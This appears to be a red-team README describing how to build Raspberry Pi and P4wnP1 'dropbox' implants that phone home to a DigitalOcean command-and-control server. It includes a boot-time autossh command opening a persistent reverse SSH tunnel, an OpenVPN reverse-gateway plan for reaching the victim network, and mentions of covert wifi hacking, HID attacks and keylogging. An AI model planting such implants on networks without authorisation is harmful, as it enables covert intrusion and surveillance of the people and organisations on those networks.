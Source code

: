 # dropbox
I have 2 raspberry pi's that I use for red teaming. One of them is p4wnp1 which is an HID hacking tool that is running Kali Linux on a raspberry pi zero.
I also have a raspberry pi 4 that I use as a dropbox. I will describe how I got this to work and how I set everything up.

## command and control server
To get this whole thing to work I need a command and control server.
This server can be used by the dropbox to connect to it.
This server must be always reachable otherwise the dropbox can't be connected to so will be useless.
This server can be a digital ocean server because I have a server at home I could also use that but for security reasons, I will use a digital ocean VPS.
I have created a droplet with the least resources because there isn't much required from this server.
![Digital Ocean](images/digitalocean.png)

One of the key components of a dropbox is to get a connection remotely after dropping it somewhere.
This can be accomplished by a reverse ssh connection or a reverse VPN connection.
For this to work 

## Raspberry pi 4
I already have Kali Linux for arm installed on my raspberry pi 4 but this is not enough for using it as a dropbox.
To set this up you want it to be able to be dropped somewhere easy and fast and connect to it remotely after dropping it.

To get the dropbox to work I needed that kali to automatically login because if we don't do that the pi won't connect to the internet.
I have created keys and copied them to all the needed devices to have a secure connection with key authentication.

### Autossh
auto ssh needs to be installed this makes a connection with an ssh server and keeps monitoring it for reconnection.
I use keys for authentication these keys I copied before.
To make autossh work it needs to be running at bootup.
I used rc-local to run it on bootup by using this code in /etc/systemd/system/rc-local.service

```
[Unit]
 Description=/etc/rc.local Compatibility
 ConditionPathExists=/etc/rc.local
[Service]
 Type=forking
 ExecStart=/etc/rc.local start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

I also added the next code to /etc/rc.local
```
#!/bin/bash -e
autossh -M $mp -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 60" -o "ServerAliveCountMax 3" -R $FUID:localhost:22 -i /root/.ssh/id_rsa $cncuser@$cncip &
exit 0
```

After setting up all of this I can ssh into the pi 4 without being connected to the same network through the command and control server.

## Improvements
I have attached a wireless USB adapter to have more range and wifi hacking possibilities.
I also handmade a small ethernet cable to make it more convenient when dropping it and making it less bulky.
There is an external battery to make it possible to drop in places where you can't use a wall socket.
After some time with tinkering around with the autossh, I thought it would be better to use a [reverse vpn](#reverse-vpn-gateway) that way I have full access over the machine not only ssh.
This I will do in combination with the auto ssh to always have a backup if anything goes wrong with one of them.
![pi4 dropbox](images/dropboxpi4.jpg)

## P4wnp1
The p4wnp1 is running a full set of kali linux it also has access to HID attacks.
Because of this it is really interesting to make this toolkit remotely accessible.
This way you have a small machine with all the potention without having to stay at a certain location
You don't have much resources but that is not always needed.
The only downsite is that without any adapters you only have wifi to access the internet.
So you need to have the wifi password to use p4wnp1 as a dropbox.

### Reverse vpn gateway
Because we want full access to the p4wnp1 we can use a vpn server.
But not only can we make our vpn server let us access our p4wnp1.
We can also make it an reverse VPN Gateway and by doing that we can access the whole network the p4wnp1 is connected to.
This reverse vpn gateway is also handy to use with my raspberry pi 4.

I can do this by using the same command and control server.
I will install openvpn on the server and after that configure the p4wnp1 to work as a reverse VPN gateway.

When Openvpn is installed you can open the admin page most of the thing are already set up correctly.
You have to add a user for your pentesting machine mine is called Merlijn and one for your dropbox mine is called dropbox.
These two should have auto login permissions esspecially the dropbox.
![openvpn users](images/users.png)


# Usages
these dropboxes can be used for multiple things.
- remotely have access to a pentest location.
- remotely doing some wifi hacking without being noticed for being a long time in a place.
- Getting access to a secured environment without staying there for too long.
- in the case of p4wnp1 remotely executing HID attacks or keylogging.